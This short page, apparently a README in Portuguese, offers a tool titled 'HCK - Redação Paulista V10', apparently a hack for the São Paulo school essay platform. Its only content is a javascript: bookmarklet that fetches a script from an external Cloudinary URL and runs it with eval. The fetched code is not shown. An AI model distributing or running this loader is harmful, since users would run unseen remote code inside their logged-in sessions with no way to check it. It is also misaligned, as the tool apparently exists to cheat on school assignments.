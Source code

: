 # 🚀 HCK - REDAÇÃO PAULISTA 

## REDAÇÃO V10 
- EM DESENVOLVIMENTO
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1748101262/redacaov10.js").then(t=>t.text()).then(eval);
```
